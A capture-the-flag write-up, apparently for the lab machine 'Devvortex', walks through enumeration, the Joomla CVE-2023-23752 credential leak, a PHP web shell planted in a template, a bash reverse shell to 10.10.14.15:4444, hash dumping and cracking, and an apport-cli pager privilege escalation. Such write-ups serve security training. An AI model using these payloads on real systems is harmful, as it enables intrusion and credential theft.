






# Enumeration
## NMAP

```bash
nmap -sC -sV -Pn -p- 10.10.11.242 -T5
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-25 10:06 EDT
Nmap scan report for 10.10.11.242
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.11 seconds

```


Using Wappalyzer we find out that the CMS in `Joomla`. 

After using the joomscan we find out the Joomla version  `4.2.6`.

The admin page for Joomla is

```bash
http://dev.devvortex.htb/administrator/modules/mod_version/mod_version.xml
```
# Foothold
## Vulnerability Search

Source  | Link
------------- | -------------
NIST  | https://nvd.nist.gov/vuln/detail/cve-2023-23752
Exploit  | https://github.com/Acceis/exploit-CVE-2023-23752


```bash
python3 exploit.py -u 'dev.devvortex.htb' -o results.txt 
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => results.txt
```
From the exploit we got the user `lewis` and the password `P4ntherg0t1n5r3c0n##`



All we need to do is to add a reverse shell to a php template
```php
if (isset($_REQUEST['cmd'])){
    system($_REQUEST['cmd']);
}
```
After adding the above code in a php template we can get the reverse shell with 

```bash
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.15/4444+0>%261'
```


We have the credentials from the database so we can connect to it.

```bash
mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.00 sec)
```

```bash
mysql> select username, password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Using hashcat to crack the password for `logan` we got `tequieromucho`



## Lateral Movement



## Vulnerability Search

Source  | Link
------------- | -------------
Exploit  | https://github.com/diego-tella/CVE-2023-1326-PoC

The vulnerability is with the pager which displays the text. We can start the apport-cli and when we try to view the report we can hit `!/bin/bash` and get root privileges.



